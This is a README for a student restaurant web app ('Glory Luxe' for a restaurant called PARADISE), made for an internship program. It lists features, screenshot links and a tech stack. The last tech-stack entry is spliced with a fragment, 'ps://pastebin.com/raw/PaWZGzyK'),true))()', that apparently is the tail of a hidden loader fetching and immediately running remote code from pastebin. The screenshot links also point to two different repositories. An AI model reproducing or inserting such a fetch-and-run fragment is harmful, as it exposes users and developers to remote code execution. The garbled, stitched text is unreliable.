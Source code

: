 # ✨ Glory Luxe  ✨

This is a web based application developed for a restaurant named PARADISE.

### This web based restaurant application has been developed for the accomplishment of Future Ready Talent Internship program launched by Microsoft, Future Skills Prime, Quess, Github and EY.


**Project Link** -https://black-island-09a648010.3.azurestaticapps.net/

## Features and Functionalities 😃

- Interactive and responsive UI.
- Has many graphical and visual innovative effects.
- Have an aesthetically pleasing visual design and architecture.
- Has collection of many web pages including Home, About Us, Contact, Menu, Chef Staff pages etc.
- User is able to book a table through the website.
- Included the feedback Survey form to increase the scope of improvement 

## Screenshots 📸
### Home page -   ![Screenshot 2023-07-29 132157](https://github.com/pranay020/project2/assets/140306607/80cc8143-5cc6-4852-86a1-8114e0457abd)


### services page -![Screenshot 2023-07-29 132354](https://github.com/pranay020/project2/assets/140306607/24e5e751-75a2-4fff-8269-a41eae352a87)


### Contact page -![Screenshot 2023-07-29 132446](https://github.com/pranay020/project2/assets/140306607/6b609a36-fe0d-4a7c-ae34-731bb5e6fc0e)


### Menu Page -![Screenshot 2023-07-29 132855](https://github.com/pranay020/project2/assets/140306607/6c8585f1-56c5-4099-8c90-e48e9814d588)


### About Us Page -![Screenshot 2023-08-09 144107](https://github.com/manasa020/ProjectM/assets/141817277/c5eb1b69-ca22-402d-93a6-1d8d8348e1a9)


## Tech Stack 💻

- [Azure(Hosting)](https://azure.microsoft.com/en-in/features/azure-portal/)
- HTML
- CSS
- Bootstrap
- JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()
